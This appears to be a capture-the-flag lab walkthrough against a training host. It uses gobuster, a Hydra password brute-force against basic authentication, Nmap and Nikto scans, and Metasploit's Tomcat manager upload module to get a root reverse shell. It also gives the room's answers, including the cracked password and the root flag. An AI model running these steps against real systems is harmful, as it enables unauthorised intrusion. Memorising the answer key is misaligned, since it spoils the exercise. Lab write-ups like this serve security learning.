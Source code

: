 ```BASH
gobuster dir -u "http://10.10.148.25/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```
![image](https://github.com/user-attachments/assets/23f686c9-345a-47e5-83e2-01a4b5b4d991)
What directory can you find, that begins with a "g"?
<pre>/guidelines</pre>  

<span style="line-height:0.5;">&nbsp;</span>

Whose name can you find from this directory?   

![image](https://github.com/user-attachments/assets/a1c7ea0b-435f-4b45-90e3-9589637fd0f6)
<pre>bob</pre>

<span style="line-height:0.5;">&nbsp;</span>

What directory has basic authentication?  

![image](https://github.com/user-attachments/assets/6864c34a-dcca-4f8a-95e4-15dd57a6fd76)
<pre>protected</pre>

<span style="line-height:0.5;">&nbsp;</span>

What is bob's password to the protected part of the website?
```BASH
sudo hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.148.25 http-get /protected
```
![image](https://github.com/user-attachments/assets/d00e7c3b-52a3-4fde-a52e-5034939784af)
<pre>bubbles</pre>

<span style="line-height:0.5;">&nbsp;</span>

What other port that serves a webs service is open on the machine?
```BASH
nmap 10.10.148.25
```
![image](https://github.com/user-attachments/assets/b14ccc4d-b4dc-4c5c-9d1d-fa0e4214e8d9)
<pre>1234</pre>

<span style="line-height:0.5;">&nbsp;</span>

What is the name and version of the software running on the port from question 5?  

![image](https://github.com/user-attachments/assets/4725bf64-5644-4d03-bf20-dd25d243aee4)
<pre>Apache Tomcat/7.0.88</pre>

<span style="line-height:0.5;">&nbsp;</span>

Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.
```BASH
nikto -h http://10.10.148.25:1234/manager/html -id bob:bubbles
```
![image](https://github.com/user-attachments/assets/c52c2ca9-debf-48b2-97c7-247a09b11e88)
<pre>5</pre>

<span style="line-height:0.5;">&nbsp;</span>

What version of Apache-Coyote is this service using?
<pre>1.1</pre>

<span style="line-height:0.5;">&nbsp;</span>

What is the server version?
```BASH
nikto -h http://10.10.148.25:80 -id bob:bubbles
```
![image](https://github.com/user-attachments/assets/b3813caf-2e5d-4c14-aa28-4a2572d6244a)
<pre>Apache/2.4.18</pre>

<span style="line-height:0.5;">&nbsp;</span>

[Metasploit](https://www.metasploit.com/) can be used to exploit Tomcat Manager vulnerabilities using the tomcat_mgr_upload exploit module.

Run Metasploit:
```BASH
msfconsole
```

Use exploit module:
```BASH
use exploit/multi/http/tomcat_mgr_upload
```

Set required options:
```BASH
set RHOSTS 10.10.148.25
set LHOST 10.10.168.110
set RPORT 1234
set LPORT 4444
set HttpPassword bubbles
set HttpUsername bob
```

Use run command
```BASH
run
```
![image](https://github.com/user-attachments/assets/6a2e44af-f51c-428b-92f1-0102727b9083)

What user did you get a shell as?  

![image](https://github.com/user-attachments/assets/acef8c06-b490-4770-a858-57f3e6d61995)
<pre>root</pre>

What flag is found in the root directory?  

![image](https://github.com/user-attachments/assets/07afa7ce-89c5-4e39-9836-a0c178651576)
<pre>ff1fc4a81affcc7688cf89ae7dc6e0e1</pre>



